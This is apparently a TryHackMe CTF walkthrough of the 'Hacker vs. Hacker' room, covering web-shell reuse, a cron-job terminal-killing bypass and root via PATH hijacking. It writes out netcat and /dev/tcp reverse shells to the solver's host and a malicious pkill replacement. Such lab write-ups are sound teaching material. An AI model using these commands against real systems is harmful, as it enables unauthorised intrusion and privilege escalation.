







## TryHackMe Room - [Hacker vs. Hacker](https://tryhackme.com/room/hackervshacker)

Someone has compromised this server already! Can you get in and evade their countermeasures?

The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

## Enumeration

### Nmap Scan

Starting with a comprehensive nmap scan to identify open ports and services:

```bash
nmap -p- -vv -sV <TARGET_IP>
```

**Results:**
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have SSH and HTTP services running. Let's explore the web application on port 80 with Burp Suite running as a proxy to capture HTTP history.

### Web Application Discovery



On the homepage, we find an interesting HTML comment in the source code that reveals a potential file upload functionality:

```html
<div class="section categories">
  <div class="container">
    <h3 class="section-heading">Want to join our stable of body-shopped professionals?</h3>
    <p class="section-description">Please upload your CV below and we will get back to you if we think your skills might earn us a profit for doing nothing beyond sending a few emails.</p>
    <form action="upload.php" method="post" enctype="multipart/form-data">
      <input class="button" type="file" name="fileToUpload" id="fileToUpload">
      <input class="button-primary" type="submit" value="Upload CV" name="submit">
      <!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
    </form>
  </div>
</div>
```

The comment suggests that uploaded CVs are stored in the `/cvs` directory. Let's visit this endpoint to see what's there.



Directory listing appears to be disabled. Let's try to upload a file first to understand how the upload functionality works.

### File Upload Analysis

When attempting to upload a non-PDF file, we receive an error message. However, examining the source code of the error page reveals something interesting:

```
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

**Analysis of the Upload Filter:**

The code uses `strpos()` to check if the filename contains `.pdf`. This is a weak check because:
1. `strpos()` returns `false` when the substring is not found, but it also returns `0` (falsy) when the substring is at position 0
2. The check doesn't verify that `.pdf` is at the end of the filename
3. An attacker could potentially bypass this by using filenames like `shell.pdf.php`

However, when we try to upload files, it seems the attacker has already patched this behavior, as we're unable to upload even legitimate PDFs. This suggests we need to find an alternative approach.

### Discovering the Attacker's Shell

Based on the error message mentioning "If you dont want me to upload my shell", it appears the attacker has already successfully uploaded a shell. Let's check for common file upload bypass patterns:

```
http://<TARGET_IP>/cvs/shell.pdf.php
```

Perfect! The attacker's shell is already present on the system. This is the file they successfully uploaded by bypassing the filter.



### Command Execution

Let's test if we can execute commands through this shell:

```
http://<TARGET_IP>/cvs/shell.pdf.php?cmd=ls
```

**Output:**
```
index.html
shell.pdf.php
boom!
```

Excellent! We have command execution. Now let's get a reverse shell.

## Initial Access

### Reverse Shell

After testing various reverse shell payloads, we discover that the server has `busybox` installed, which provides a limited set of utilities including `nc` (netcat).



**Step 1:** Set up a netcat listener on our local machine:

```bash
nc -lnvp 1337
```

**Step 2:** Execute the reverse shell payload via the web shell:

```
http://<TARGET_IP>/cvs/shell.pdf.php?cmd=busybox+nc+<YOUR_IP>+1337+-e+sh
```

Success! We have a reverse shell connection. Let's stabilize it:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User Flag

Now that we have shell access, let's locate the user flag. First, let's explore the home directories:

```bash
cd /home
ls
```

**Output:**
```
lachlan
```

Let's navigate to the user's home directory and retrieve the flag:

```bash
cd /home/lachlan
ls
```

**Output:**
```
bin
user.txt
```

```bash
cat user.txt
```

**User Flag:** `<REDACTED>`



### Exploring the Home Directory

We notice a `bin` directory in lachlan's home folder. Let's examine its contents:

```bash
cd bin
ls -la
```

**Output:**
```
total 12
drwxr-xr-x    2 lachlan  lachlan       4096 May  5  2022 .
drwxr-xr-x    4 lachlan  lachlan       4096 May  5  2022 ..
-rw-r--r--    1 lachlan  lachlan         56 May  5  2022 backup.sh
```

Let's read the `backup.sh` script:

```bash
cat backup.sh
```

**Contents:**
```
# todo: pita website backup as requested by her majesty
```

The script itself doesn't reveal much, but the room description mentions that the attacker was "a bit sloppy with their automation skills," which suggests we should investigate cron jobs.

### Investigating Cron Jobs

To monitor cron jobs and other scheduled processes, we'll use `pspy`, a tool that allows us to spy on processes without root privileges.

**Step 1:** Download `pspy` to our local machine and host it via a Python HTTP server:

```bash
python3 -m http.server 9000
```

**Step 2:** Download `pspy` on the target system:

```bash
cd /tmp
wget http://<YOUR_IP>:9000/pspy64
chmod +x pspy64
```



**Step 3:** Execute `pspy` to monitor processes:

```bash
./pspy64
```

After monitoring for a while, we discover an interesting process:

```bash
2026/01/26 05:53:52 CMD: UID=0     PID=6017   | /bin/ls /dev/pts 
2026/01/26 05:53:52 CMD: UID=0     PID=6019   | pkill -9 -t pts/ptmx
```

The attacker has set up a cron job that's actively killing terminal sessions! This explains why we need to be careful with our connections.

### Finding SSH Credentials

To gain proper SSH access, we need to find the user's password. Let's examine lachlan's home directory more thoroughly, particularly looking for hidden files:

```bash
cd /home/lachlan
ls -la
```

**Output:**
```
total 36
drwxr-xr-x    4 lachlan  lachlan       4096 May  5  2022 .
drwxr-xr-x    3 root     root          4096 May  5  2022 ..
-rw-r--r--    1 lachlan  lachlan        168 May  5  2022 .bash_history
-rw-r--r--    1 lachlan  lachlan        220 Feb 25  2020 .bash_logout
-rw-r--r--    1 lachlan  lachlan       3771 Feb 25  2020 .bashrc
drwx------    2 lachlan  lachlan       4096 May  5  2022 .cache
-rw-r--r--    1 lachlan  lachlan        807 Feb 25  2020 .profile
drwxr-xr-x    2 lachlan  lachlan       4096 May  5  2022 bin
-rw-r--r--    1 lachlan  lachlan         38 May  5  2022 user.txt
```

The `.bash_history` file looks interesting. Let's examine it:

```bash
cat .bash_history
```

**Contents:**
```
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

Perfect! We found the password in the bash history: `<REDACTED>`. The attacker attempted to clear the bash history, but we can still see it.

### Examining the Persistence Cron Job

Let's also check the cron job file that was mentioned in the bash history:

```bash
cat /etc/cron.d/persistence
```

**Contents:**
```
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

**Key Observations:**
1. The `PATH` variable includes `/home/lachlan/bin` before system directories
2. Multiple cron jobs run every minute at different intervals (1, 11, 21, 31, 41, 51 seconds)
3. These jobs kill all terminal sessions by iterating through `/dev/pts` and using `pkill`
4. The `pkill` command is called without its full path, relying on the `PATH` variable

This setup is vulnerable to PATH hijacking!

### SSH Access with Terminal Bypass

Now that we have the credentials (`lachlan:<REDACTED>`), we can attempt SSH login. However, since the cron jobs are actively killing terminal sessions, we need to use the `-T` flag to prevent SSH from allocating a pseudo-terminal:

```bash
ssh lachlan@<TARGET_IP> -T
```

The `-T` flag disables pseudo-terminal allocation, which means the cron job won't detect our session as a terminal and won't kill it. This allows us to maintain a stable connection.

**SSH Connection:**
```
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)
```

Perfect! We now have stable SSH access as the `lachlan` user.

## Privilege Escalation

### PATH Hijacking Vulnerability

Looking back at the cron job configuration, we identified a critical vulnerability:

1. **PATH Variable:** The cron job sets `PATH=/home/lachlan/bin:/bin:/usr/bin`
2. **Missing Absolute Path:** The cron job calls `pkill` without specifying its full path (`/usr/bin/pkill`)
3. **Writable Directory:** We have write access to `/home/lachlan/bin/` as the `lachlan` user

This means we can create a malicious `pkill` executable in `/home/lachlan/bin/`, and when the cron job runs, it will execute our malicious script instead of the real `pkill` command, giving us root privileges!

### Exploitation

**Step 1:** Create a malicious `pkill` script in `/home/lachlan/bin/`:

```bash
echo "#!/bin/bash" > /home/lachlan/bin/pkill
echo "bash -i >& /dev/tcp/<YOUR_IP>/9999 0>&1" >> /home/lachlan/bin/pkill
chmod +x /home/lachlan/bin/pkill
```

**Step 2:** Set up a netcat listener on our local machine:

```bash
nc -lnvp 9999
```

**Step 3:** Wait for the cron job to execute (it runs every minute at various intervals). When it does, our malicious `pkill` script will be executed as root, giving us a root reverse shell.



## Root Flag

Now that we have root access, let's retrieve the root flag:

```bash
cat /root/root.txt
```

**Root Flag:** `<REDACTED>`

Alternatively, the flag might be in `/root/proof.txt`:

```bash
cat /root/proof.txt
```

**Proof Flag:** `<REDACTED>`

Challenge solved!

## Summary

This challenge demonstrated several important security concepts:

1. **File Upload Vulnerabilities:** Weak file upload filters can be bypassed, and even when patched, previously uploaded malicious files may remain accessible.

2. **Information Disclosure:** Comments in source code and error messages can reveal sensitive information about the application structure.

3. **Cron Job Security:** Cron jobs that use relative paths and include user-writable directories in the PATH are vulnerable to PATH hijacking attacks.

4. **Terminal Session Management:** Understanding how terminal sessions work and how to bypass detection mechanisms is crucial for maintaining access.

5. **Bash History:** Even when "cleared," bash history may still contain sensitive information that can be recovered.

## References

1. [pspy - GitHub](https://github.com/DominicBreuker/pspy)
2. [pkill - GTFOBins](https://gtfobins.github.io/gtfobins/pkill/)
3. [Linux Privilege Escalation using PATH Hijacking - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-path-hijacking/)

---

## Answers

### Task 1 - Get on and boot them out!

> The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

1. **What is the user.txt flag?**

   **Ans.** `<REDACTED>`

2. **What is the proof.txt flag?**

   **Ans.** `<REDACTED>`
